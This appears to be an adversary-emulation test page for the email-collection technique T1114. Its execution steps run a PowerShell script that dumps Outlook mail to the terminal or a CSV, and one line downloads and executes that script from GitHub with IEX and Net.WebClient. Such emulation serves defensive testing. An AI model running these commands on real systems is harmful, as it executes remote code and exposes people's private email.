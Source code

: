 Technique Description: Email Collection (T1114)
------------------------------------
Attackers may steal emails to collect sensitive information about their target. They may target email applications like Outlook.

Assumptions 
-------------

Execution
-------------
Display email contents in the terminal  PS C:\> .\Get-Inbox.ps1
Write emails out to a CSV  PS C:\> .\Get-Inbox.ps1 -file "mail.csv"
Download and Execute  "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Get-Inbox.ps1')"
